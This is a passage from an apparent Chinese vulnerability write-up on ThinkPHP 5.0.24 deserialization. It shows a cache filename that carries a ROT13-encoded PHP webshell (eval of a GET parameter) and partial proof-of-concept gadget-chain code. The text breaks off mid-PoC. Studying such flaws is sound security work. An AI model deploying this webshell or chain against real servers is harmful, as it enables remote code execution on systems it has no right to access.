 生成文件名规则：

    md5('tag_'.md5($this->tag))
    即:
    md5('tag_c4ca4238a0b923820dcc509a6f75849b')
    =>3b58a9545013e88c7186db11bb158c44
    =>
    <?cuc cucvasb();riny($_TRG[pzq]);?> + 3b58a9545013e88c7186db11bb158c44
    最终文件名：
    <?cuc cucvasb();riny($_TRG[pzq]);?>3b58a9545013e88c7186db11bb158c44.php

在漏洞利用时需注意目录读写权限，可先控制options\['path'\] =
'./demo/'，利用框架创建一个755文件夹（前提是具有权限）

我们可以稍微修改下 **payload** 用于创建一个 **0755**
权限的目录（这里利用的是 **think\\cache\\driver\\File:getCacheKey()**
中的 **mkdir** 函数），然后再往这个目录写文件。

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5.0.24反序列化漏洞/media/rId27.gif)

### poc 创建demo目录

    <?php
    namespace think\process\pipes;
    use think\model\Pivot;
    class Pipes{

    }

    class Windows extends Pipes{
        private $files = [];

        function __construct(){
            $this->files = [new Pivot()];
        }
    }

    namespace think\model;#Relation
    use think\db\Query;
    abstract class Relation{
        protected $selfRelation;
        protected $query;
        function __construct(){
            $this->selfRelation = false;
            $this->query = new Query();#class Query
        }
    }

    namespace think\model\relation;#OneToOne HasOne
    use think\model\Relation;
    abstract class OneToOne extends Relation{
        function __construct(){
            parent::__construct();
        }
